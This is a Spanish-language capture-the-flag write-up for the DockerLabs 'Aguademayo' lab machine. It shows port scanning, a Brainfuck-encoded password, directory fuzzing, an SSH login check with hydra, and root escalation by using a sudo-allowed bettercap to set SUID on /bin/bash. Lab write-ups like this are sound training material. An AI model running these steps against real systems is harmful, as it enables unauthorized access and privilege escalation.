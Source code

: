 # 🖥️ Writeup - Aguademayo 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip aguademayo.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh aguademayo.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-12 17:13 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000023s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.80 seconds
```

Tenemos abiertos los puertos `22` y `80`.

Accedemos por `HTTP` y nos encontramos con una página por defecto de `Apache2`.

Al inspeccionar el código fuente, encontramos un comentario al final:

```
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
```

se trata de un código escrito en `Brainfuck`, así que lo pasamos por un intérprete.

![alt text](../images/brain.png)

El resultado obtenido, al juntar todas las letras, es `bebeaguaqueessano`.

Probamos un ataque de `fuerza bruta` por `SSH` con el usuario `bebeaguaqueessano`, pero no encontramos ninguna coincidencia.

Es posible que `bebeaguaqueessano` sea una contraseña y no un usuario, así que continuamos buscando.

# GOBUSTES

Realizamos `fuzzing` de directorios para intentar localizar recursos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,zip,php,txt,bak,sh
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/index.html           (Status: 200) [Size: 11142]
Progress: 284272 / 1543906 (18.41%)
```

Encontramos un directorio `/images` y, al acceder, hallamos una imagen llamada `agua_ssh.jpg`, lo que nos hace pensar que quizá el usuario del sistema sea `agua`.

Comprobamos si las credenciales `agua` : `bebeaguaqueessano` son válidas.

```bash
hydra -l agua -p bebeaguaqueessano ssh://172.17.0.2
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-12 17:40:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: agua   password: bebeaguaqueessano
```

Accedemos por SSH.

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for agua on 8b7d14fcd35a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User agua may run the following commands on 8b7d14fcd35a:
    (root) NOPASSWD: /usr/bin/bettercap
```

verificamos que podemos ejecutar el binario `bettercap` con privilegios de `root`. Lo aprovechamos para ejecutar código con privilegios de administrador.

```bash
sudo bettercap
```

Info:
```
bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [15:43:48] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  »
```

Una vez dentro de la interfaz de comandos, otorgamos permisos `SUID` al binario `/bin/bash`.

```bash
! chmod +s /bin/bash
```

Salimos de la interfaz y escalamos a `root` con el siguiente comando:

```bash
/bin/bash -p
```

Info:
```
bash-5.2# whoami
root
bash-5.2#
```

Ya somos root!